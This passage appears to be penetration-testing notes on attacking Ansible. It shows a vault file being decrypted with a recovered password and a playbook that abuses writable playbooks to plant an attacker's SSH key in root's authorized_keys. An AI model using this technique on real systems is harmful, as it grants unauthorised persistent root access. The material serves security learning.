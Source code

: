 Now we can use `ansible-vault decrypt` to decrypt any files encrypted with the original hash:
```bash
ansibleadm@controller:/opt/playbooks$ cat pw.txt
$ANSIBLE_VAULT;1.1;AES256
393636316139353262353832326166396132313036386537616661653361313139656630333132323736626166356263323964366533656633313230323964300a323838373031393362316534343863366234356236383736366262373331633362636237373835326637636135343131346437306435323132313130313534300a3837623663333036663631653839623563353836626437653138326632383036
ansibleadm@controller:/opt/playbooks$ cat pw.txt | ansible-vault decrypt
Vault password:
lab
Decryption successful
```

# Weak Permissions on Ansible Playbooks

If we have write access to a playbook, we may be able to exploit it by executing tasks we desire

The following example attempts to overwrite an existing playbook by adding our public key to `authorized_keys`:
```yaml
---
	- name: Get system info
	hosts: all
	gather_facts: true
	become: yes
	tasks:
		- name: Display info
			debug:
				msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"
				
	- name: Create a directory if it does not exist
		file:
			path: /root/.ssh
			state: directory
			mode: '0700'
			owner: root
			group: root
	- name: Create authorized keys if it does not exist
		file:
			path: /root/.ssh/authorized_keys
			state: touch
			mode: '0600'
			owner: root
			group: root
			
	- name: Update keys
		lineinfile:
			path: /root/.ssh/authorized_keys
			line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
			insertbefore: EOF
```
